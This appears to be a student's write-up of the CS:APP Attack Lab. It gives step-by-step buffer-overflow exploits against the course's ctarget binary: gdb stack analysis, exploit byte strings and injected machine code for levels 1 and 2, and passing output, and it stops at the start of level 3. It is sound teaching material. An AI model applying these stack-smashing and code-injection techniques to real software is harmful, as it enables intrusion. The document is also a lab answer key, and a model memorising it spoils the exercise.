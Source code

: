 # Attack Lab

## Introduction
Students are given binaries called ctarget and rtarget that have a buffer overflow bug. 
We are going to alter the behavior of the given targets via five increasingly difficult
exploits. The three attacks on ctarget use code injection. The two attacks on rtarget use
return-oriented programming.
The `src` folder includes all the files required to accomplish our 5 attacks:
```
README.txt:  A file describing the contents of the directory
ctarget:     An executable program vulnerable to code-injection attacks
rtarget:     An executable program vulnerable to return-oriented-programming attacks
cookie.txt:  An 8-digit hex code that you will use as a unique identifier in your attacks.
farm.c:      The source code of your target gadget farm, which you will use in generating
             return-oriented programming attacks.
hex2raw:     A utility to generate attack strings
```

Both CTARGET and RTARGET read strings from standard input.
```C
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

## Code Injection Attacks
Function `getbuf()` is called within `ctarget` by a function test having the following C code:
```C
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
When `getbuf` executes its return statement, the program ordinarily resumes execution
within function test. We want to change this behavior by injecting code as the input
to `ctarget`.

### Level 1
Within the file `ctarget`, there is code for a function touch1 having the following C
representation:
```C
void touch1()
{
    vlevel = 1;    /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
Our mission is to using a string input that can overflow the stack from `getbuf()` and
to redirect the program to `touch1()` when `getbuf()` returns.
Now let's go to the `src/` folder and analyze the disassembled code:
```bash
  unix > cd src
  unix > objdump -d ctarget > ctarget.d
```
Once opening the `ctarget.d` with an editor, we can see the `<test>` function starts
at address `0x401968`, `<getbuf>` starts at address `0x4017a8` and `<touch1>` starts
at address `0x4017c0`. So our level 1 task is to let `<getbuf>` return to address
`0x4017c0` instead of its original `0x401976`. We can do the analysis with `gdb`

```bash
  src > gdb ctarget
  (gdb) b test
  Breakpoint 1 at 0x401968: file visible.c, line 90.
  (gdb) r -q
  Starting program: ${Your_Root_Path}/03-Attack-Lab/src/ctarget -q
  Cookie: 0x59b997fa
  
  Breakpoint 1, test () at visible.c:90
  90      visible.c: No such file or directory.
  (gdb) layout asm
  (gdb) layout regs
```
The `-q` parameter is used to skip network related operations in `ctarget`, and
you can run `ctarget -h` to view the concrete description of all valid parameters.
Then we use `si` to monitor the program by instruction. We can see that every time
a `callq` is executed, the address of the next instruction of `callq` will be pushed
to the stack. And once the stack popped up from the called function, the `retq` will
pop the stack and go to the address that previously stored.
Let's monitor the instruction when `<test>` calls `<getbuf>`:
```
  0x401971   callq 0x4017a8 <getbuf>
  0x401976   mov   %eax,%edx
  ...
```
When we use `si` to arrive at instruction `0x401971`, the current stack is `rsp=0x5561dca8`.
And we further type a `si` in `gdb` console, we can see that the stack is now
`rsp=0x5561dca0`, and the value of it:
```
  (gdb) x/8xb 0x5561dca0
  0x5561dca0:     0x76    0x19    0x40    0x00    0x00    0x00    0x00    0x00  
```
Appearently, this is the original return address for `<getbuf>`. We are going to
use an input string to overwrite replace the stack frame at `0x5561dca0` by the address
of `<touch1>`. Next we will caluculate the size of bytes we need to inject in order
to reach `0x5561dca0`.
```
  <getbuf>
  0x4017a8:   sub    $0x28,%rsp
  0x4017ac:   mov    %rsp,%rdi
  0x4017af:   callq  401a40 <Gets>
  0x4017b4:   mov    $0x1,%eax
  0x4017b9:   add    $0x28,%rsp
  0x4017bd:   retq
```
According to the disassembled code, `<getbuf>` applies 40 bytes to stack, which means
that we need to first inject 40 bytes to occupy the stack of `<getbuf>` and then followed
by 8 bytes of address for `<touch1>` for the `retq` to redirect. One possible solution can
be
```
  00 00 00 00 00 00 00 00    /* stack space occupation */
  00 00 00 00 00 00 00 00    /* stack space occupation */
  00 00 00 00 00 00 00 00    /* stack space occupation */
  00 00 00 00 00 00 00 00    /* stack space occupation */
  00 00 00 00 00 00 00 00    /* stack space occupation */
  C0 17 40 00 00 00 00 00    /* the address of <touch1> */
```
Let's put the solution to file `ctarget.exploit.l1.txt`, and we can validate it by
executing from the following command `/src`
```
  03-Attack-Lab/src > cat ctarget.exploit.l1.txt | ./hex2raw | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: ...
```

### Level 2
The task of level 2 is to redirect `<getbuf>` to `<touch2>`.
```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
Moreover, we must make it appear to `<touch2>` as if our cookie `0x59b997fa` is passed to it.
Note that the first argument to a function is passed in register `%rdi`, we have to redirect
the `<getbuf>` to an address storing code of the following:
```
  mov $0x59b997fa,%rdi  # assign cookie value to register rdi
  retq                  # go to <touch2>
```
Let's put the assembly code to a file `ctarget.code.l2.s` and obtain its machine code
```
  03-Attack-Lab/src > gcc -c ctarget.code.l2.s
  03-Attack-Lab/src > objdump -d ctarget.code.l2.o > ctarget.code.l2.d
  03-Attack-Lab/src > cat ctarget.code.l2.d
    ctarget.code.l2.o:     file format elf64-x86-64
    Disassembly of section .text:
    0000000000000000 <.text>:
       0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
       7:   c3                      retq
```
Following the address redirection in the previous task, we will first redirect `<getbuf>` to
the stack address where we put the machine code above. Here, we put this machine code to the
stack bottom of `<getbuf>`, which is `0x5561dc78`. Second, we will further append the
address of `<touch2>`, which is `0x4017ec` to the stack address that `retq` in our injected
code will head to. In this case, our solution for level 2 will be:
```
  48 c7 c7 fa 97 b9 59 c3    /* injected code */
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  78 dc 61 55 00 00 00 00    /* the address of injected code */
  ec 17 40 00 00 00 00 00    /* the address of <touch2> */
```
Put the above exploit to file `ctarget.exploit.l2.txt` and execute it:
```
  03-Attack-Lab/src > cat ctarget.exploit.l2.txt | ./hex2raw | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: ...
```

### Level 3
Level 3 also involves a code injection attack, but passing a string as argument.
Within the file `ctarget` there is code for functions `<hexmatch>` and `<touch3>`
having the following C representations:
```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
